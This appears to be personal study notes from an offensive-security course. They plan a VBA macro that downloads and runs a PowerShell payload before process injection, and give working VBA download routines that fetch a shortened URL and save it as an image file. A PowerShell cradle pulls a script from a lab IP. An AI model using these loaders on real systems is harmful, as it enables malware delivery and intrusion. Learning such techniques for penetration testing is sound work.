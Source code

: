 VBA —> download a powershell —> perform process injection 

in OSEP tutorial, it initiates a shell to run “powershell” cmdlet to download staged powershell. 

What I want to try is using VB Macro to download Powershell script and execute it, the difference is my approach only invokes Powershell once.

VBA download file from URL:

1. Win32 API
    
    ```visual-basic
    Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
        ByVal pCaller As LongPtr, _
        ByVal szURL As String, _
        ByVal szFileName As String, _
        ByVal dwReserved As Long, _
        ByVal lpfnCB As LongPtr _
    ) As Long
    
    Sub DownloadFile()
         URLDownloadToFileA 0, "https://bit.ly/2B1GCyQ", "ts.jpg", 0, 0
    End Sub
    ```
    
2. COM Object
    
    ```visual-basic
    Sub DownloadFile()
        Set objXMLHTTP = CreateObject("Microsoft.XMLHTTP")
        Set objADODBStream = CreateObject("ADODB.Stream")
        objXMLHTTP.Open "GET", "https://bit.ly/2B1GCyQ", False
        objXMLHTTP.Send
        objADODBStream.Type = 1
        objADODBStream.Open
        objADODBStream.Write objXMLHTTP.responseBody
        objADODBStream.savetofile "ts.jpg", 2
    End Sub
    ```
    
    `powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.ps1')`
    
    What next ? I need to cook up the powershell in which 
    

# DLL Injection

<aside>
💡 However, there are several restrictions we must consider. First, the DLL must be written in C or C++ and must be unmanaged. The managed C#-based DLL we have been working with so far will not work because we can not load a managed DLL into an unmanaged process.

</aside>
